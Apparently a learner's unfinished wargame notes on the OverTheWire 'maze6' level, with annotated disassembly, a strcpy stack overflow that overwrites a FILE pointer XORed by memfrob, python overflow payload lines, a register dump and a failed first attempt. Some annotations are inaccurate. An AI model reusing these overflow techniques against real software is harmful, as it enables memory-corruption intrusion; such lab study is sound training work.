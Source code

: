    ```assembly
   0x0804855b <+0>:     push   ebp
   0x0804855c <+1>:     mov    ebp,esp
   0x0804855e <+3>:     sub    esp,0x104
   0x08048564 <+9>:     cmp    DWORD PTR [ebp+0x8],0x3		#env = 3 paras
   0x08048568 <+13>:    je     0x8048584 <main+41>
   0x0804856a <+15>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804856d <+18>:    mov    eax,DWORD PTR [eax]
   0x0804856f <+20>:    push   eax
   0x08048570 <+21>:    push   0x80486a0
   0x08048575 <+26>:    call   0x80483c0 <printf@plt>
   0x0804857a <+31>:    add    esp,0x8
   0x0804857d <+34>:    push   0xffffffff
   0x0804857f <+36>:    call   0x80483f0 <exit@plt>
   0x08048584 <+41>:    mov    eax,DWORD PTR [ebp+0xc]		
   0x08048587 <+44>:    add    eax,0x4
   0x0804858a <+47>:    mov    eax,DWORD PTR [eax]		#eax = env[0] = filenmae
   0x0804858c <+49>:    push   0x80486b7			#"a"
   0x08048591 <+54>:    push   eax
   0x08048592 <+55>:    call   0x8048430 <fopen@plt>		#file open
   0x08048597 <+60>:    add    esp,0x8
   0x0804859a <+63>:    mov    DWORD PTR [ebp-0x4],eax
   0x0804859d <+66>:    cmp    DWORD PTR [ebp-0x4],0x0
   0x080485a1 <+70>:    jne    0x80485b7 <main+92>		#if fopen returned null ptr
   0x080485a3 <+72>:    push   0x80486b9
   0x080485a8 <+77>:    call   0x80483d0 <perror@plt>
   0x080485ad <+82>:    add    esp,0x4
   0x080485b0 <+85>:    push   0xffffffff
   0x080485b2 <+87>:    call   0x80483f0 <exit@plt>
   0x080485b7 <+92>:    mov    eax,DWORD PTR [ebp+0xc]		#continue here
   0x080485ba <+95>:    add    eax,0x8
   0x080485bd <+98>:    mov    eax,DWORD PTR [eax]
   0x080485bf <+100>:   push   eax				#eax = env[1] = wb
   0x080485c0 <+101>:   lea    eax,[ebp-0x104]			#buffer of size 160
   0x080485c6 <+107>:   push   eax
   0x080485c7 <+108>:   call   0x80483e0 <strcpy@plt>		#strcpy it
   0x080485cc <+113>:   add    esp,0x8
   0x080485cf <+116>:   lea    eax,[ebp-0x104]
   0x080485d5 <+122>:   push   eax
   0x080485d6 <+123>:   call   0x8048400 <strlen@plt>		#strlen(buffer)
   0x080485db <+128>:   add    esp,0x4
   0x080485de <+131>:   push   eax
   0x080485df <+132>:   lea    eax,[ebp-0x104]
   0x080485e5 <+138>:   push   eax				
   0x080485e6 <+139>:   call   0x8048440 <memfrob@plt>		#memfrob(buffer, len)
   0x080485eb <+144>:   add    esp,0x8				#encrypts buffer with xor(42)
   0x080485ee <+147>:   mov    eax,DWORD PTR [ebp+0xc]		
   0x080485f1 <+150>:   add    eax,0x4
   0x080485f4 <+153>:   mov    eax,DWORD PTR [eax]		#eax = env[0]
   0x080485f6 <+155>:   lea    edx,[ebp-0x104]
   0x080485fc <+161>:   push   edx				#edx = buffer
   0x080485fd <+162>:   push   eax
   0x080485fe <+163>:   push   0x80486bf			#
   0x08048603 <+168>:   push   DWORD PTR [ebp-0x4]		#file ptr
   0x08048606 <+171>:   call   0x8048420 <fprintf@plt>
   0x0804860b <+176>:   add    esp,0x10
   0x0804860e <+179>:   push   0x0
   0x08048610 <+181>:   call   0x80483f0 <exit@plt>
```

at main+108, we see unsafe strcpy, so we can use this to our advantage...

/maze/maze6 /tmp/mz6/temp $(python -c 'print "A"*300')
indeed gives seg. fault...

after some trial and error, we see that $(python -c 'print "A"*256+"BBBB"')
over writes file ptr with xor('BBBB', 2a)
lets try to write to our program (inside vfprint): 
0x0804855c --> 0x222eaf76
r /tmp/mz6/temp $(python -c 'print "\x6b"*256+"\x76\xaf\x2e\x22"')
that didnt work...


info reg:
eax            0x41414145       1094795589		#overwritten
ecx            0xffffd5be       -10818			#near ebp
edx            0xffffd5be       -10818			#near ebp
ebx            0x0      0
esp            0xffffd4a4       0xffffd4a4
ebp            0xffffd5a8       0xffffd5a8		#still ebp
esi            0x3      3
edi            0xf7fc5000       -134459392		#return address
eip            0x80485f4        0x80485f4 <main+153>
eflags         0x10202  [ IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99

source for exploit:
https://translate.googleusercontent.com/translate_c?depth=1&hl=iw&rurl=translate.google.com&sl=zh-CN&sp=nmt4&tl=en&u=http://www.ouah.org/fsp-overflows.txt&xid=17259,15700023,15700186,15700190,15700256,15700259,15700262,15700265,15700271,15700283&usg=ALkJrhh3FhEPYOVx2j7xMX-iZsIs6vnMSQ

we want to override the FILE struct, and use it to write shell code...
[in progress]


